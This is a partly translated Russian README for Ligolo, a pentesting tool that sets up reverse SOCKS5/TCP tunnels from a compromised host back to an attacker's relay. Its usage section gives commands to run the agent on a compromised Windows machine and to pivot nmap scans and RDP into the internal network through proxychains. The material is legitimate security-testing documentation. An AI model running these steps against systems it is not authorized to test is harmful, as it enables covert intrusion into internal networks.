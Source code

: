 # Ligolo : Простое обратное туннелирование для пентестеров, от пентестеров

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

![Ligolo](img/ligolo.png)

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Содержание

- [Вступление](#introduction)
- [Пример использования](#use-case)
- [Быстрая демонстрация](#quick-demo)
- [Производительность](#performance)
- [Использование](#usage)
  - [Настройка / Компиляция](#setup--compiling)
  - [Как использовать?](#how-to-use)
  - [TL;DR](#tldr)
  - [Опции](#options)
- [Особенности](#features)
- [To Do](#to-do)
- [Лицензирование](#licensing)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Вступление

**Ligolo** это * простой * и * легкий * инструмент для установления * SOCKS5 * или * TCP * туннелей из обратного соединения в полной безопасности (сертификат TLS с эллиптической кривой).
Это сопоставимо с * Meterpreter* с * Autoroute + Socks4a*, но более стабильно и быстрее.

## Пример использования

Вы скомпрометировали сервер Windows / Linux / Mac во время вашего внешнего аудита. Этот сервер расположен внутри локальной сети, и
вы хотите установить соединения с другими компьютерами в этой сети.

**Ligolo** может настроить туннель для доступа к ресурсам внутреннего сервера.

## Быстрая демонстрация

Ретрансляция RDP-соединения с использованием прокси-цепочек (WAN).

![RDP](img/rdesktop_example.gif)

## Производительность

Вот скриншот теста скорости между двумя хостами со скоростью 100 Мбит/с (ligolo / localrelay). Производительность может варьироваться в зависимости от конфигурации системы и сети.

![Проверка скорости](img/speedtest.png)

## Использование

### Настройка / Компиляция

Убедитесь, что * Go* установлен и работает.

1. Получите Ligolo и зависимости

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Сгенерируйте самоподписанный TLS сертификат (будет помещен в *certs* папку)

```
make certs TLS_HOST=example.com
```

NOTE: Вы также можете использовать свои собственные сертификаты, используя `TLS_CERT` переменную окружения при вызове *build*. Пример: `make build-all TLS_CERT=certs/mycert.pem`.

3. Сборка

* 3.1. Для всех архитектур

```
make build-all
```

* 3.2. (или) Для текущей архитектуры

```
make build
```

### Как использовать?

*Ligolo* состоит из двух модулей:

- localrelay
- ligolo

*Localrelay* предназначен для запуска на сервере управления (сервере злоумышленника).

*Ligolo* это программа для запуска на целевом компьютере.

Для *localrelay*, вы можете оставить параметры по умолчанию. Он будет прослушивать каждый интерфейс на порту 5555 и ждать подключений от *ligolo* (`-relayserver` параметр).

For *ligolo*, you must specify the IP address of the relay server (or your attack server) using the `-relayserver ip:port` parameter.

Вы можете использовать `-h` для помощи.

Как только будет установлено соединение между *Ligolo* и *LocalRelay*, прокси-сервер *SOCKS5* будет поднят на TCP-порт `1080` на relay сервере (вы можете изменить TCP-адрес/порт, используя опцию *-localserver*).

После этого все, что вам нужно сделать, это использовать ваш любимый инструмент (например, Proxychains) и исследовать локальную сеть клиента.

### TL;DR

На вашем атакующем сервере.

```
./bin/localrelay_linux_amd64
```

На скомпроментированом хосте.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Как только соединение установлено, установите следующие параметры в конфигурационном файле ProxyChains (на атакующем сервере):

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Опции

*Localrelay* опции:

```
Использование localrelay:
  -certfile string
    	Сертификат сервера TLS (по умолчанию "certs/server.crt")
  -keyfile string
    	Ключ сервера TLS (по умолчанию "certs/server.key")
  -localserver string
    	Адрес локального сервера (ваш параметр proxychains) (default "127.0.0.1:1080")
  -relayserver string
    	Адрес прослушивания сервера ретрансляции (обратный адрес для подключения) (default "0.0.0.0:5555")
```

*Ligolo* опции:

```
Использование ligolo:
  -autorestart
    	Попытка повторного подключения в случае ошибки
  -relayserver string
    	Сервер ретрансляции (обратный адрес для подключения) (default "127.0.0.1:5555")
  -skipverify
    	Пропустить проверку сертификата TLS
  -targetserver string
    	Целевой сервер (RDP-клиент, SSH-сервер и т.д.) - если не указано, Ligolo запускает прокси-сервер socks5.
```

## Особенности

- Туннель TLS 1.3 с поддержкой TLS
- Мультиплатформенность (Windows / Linux / Mac / ...)
- Мультиплексирование (1 TCP-соединение для всех потоков)
- Прокси-сервер SOCKS5 или простая ретрансляция

## To Do

- Улучшенная обработка тайм-аута
- Поддержка SOCKS5 UDP
- Implement mTLS

## Лицензирование

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[![Sysdream](img/logo_sysdream.png)](https://sysdream.com)
